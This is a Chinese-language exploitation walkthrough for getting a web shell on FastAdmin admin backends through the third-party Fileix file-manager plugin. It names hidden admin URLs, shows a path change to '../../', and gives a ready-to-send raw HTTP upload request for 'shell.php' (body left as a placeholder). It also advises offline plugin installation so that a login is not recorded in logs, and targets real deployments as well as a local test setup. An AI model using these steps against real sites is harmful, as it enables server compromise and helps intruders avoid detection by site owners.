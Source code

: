 FastAdmin 第三方插件后台getshell
================================

**0x01 前言**



FastAdmin是基于ThinkPHP5和Bootstrap的后台框架，可以利用三方插件GetShell



**0x02 本地测试**



FastAdmin官方源码下载地址：

```
https://www.fastadmin.net/download.html
```



开启phpstudy本地搭建

![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135325926.png)



安装成功，新版源码的后台地址是随机生成的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326062.png)



后台默认会有插件管理功能，但是绝大部分用户会把这个功能阉割掉



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326155.png)



点进去看到有一堆付费和免费的插件



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326173.png)



翻到了目前已有的三个官方发布的在线文件管理器插件，一个是官方付费版，一个是三方付费版



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326004.png)

![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326014.png)



但是由于舍不得花十块钱买插件，所有只能用三方免费版插件，直接点击安装会需要登录账号，登录信息会记录到日志，不便于操作，所以去官方下载离线安装包



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135325948.png)



Fileix文件管理器离线安装包官方下载地址：

- 

```
https://www.fastadmin.net/store/fileix.html
```



点击离线安装，选择上传你下载的ZIP离线安装包



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326013.png)



插件安装完成会自动启用，默认路径配置是这样的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326024.png)



然后打开是这样的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326057.png)



可以修改为 ../../，那么再打开就是这样的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326061.png)



然后浅显易懂，直接右键上传php文件就能getshell



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326097.png)



上面是本地测试环境，真实环境会出现这样一个问题，就是点击文件管理功能不会显示任何内容



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326174.png)



后来了解一下是因为没有配置前台页面，不太好修改，所以利用下面的方法





**0x03 通用方法**



1.插件管理地址：

- 

```
/admin/addon?ref=addtabs
```



进入后台默认不显示插件管理功能，访问插件管理地址，上传离线安装包



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326080.png)



2.文件管理地址/读取所有文件地址：

- 
- 

```
/admin/fileix?ref=addtabs/admin/fileix/lst
```



真实环境中如果出现不显示功能的情况，必要时可以读取所有文件地址



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326317.png)



3.上传poc：

- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 

```
POST /admin/fileix/data?target=%2F HTTP/1.1Host: localhostContent-Length: 1050Origin: http://localhostUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrZmyeAB3SciJDWSTAccept: */*Referer: http://localhostAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.8Cookie: PHPSESSID=xxxxxxxxConnection: close
------WebKitFormBoundaryrZmyeAB3SciJDWSTContent-Disposition: form-data; name="upload"; filename="shell.php"Content-Type: application/octet-stream
code------WebKitFormBoundaryrZmyeAB3SciJDWSTContent-Disposition: form-data; name="action"
upload------WebKitFormBoundaryrZmyeAB3SciJDWSTContent-Disposition: form-data; name="target"
/public/------WebKitFormBoundaryrZmyeAB3SciJDWST--
```



修改host地址post过去



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326220.png)



利用poc成功上传shell



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326186.png)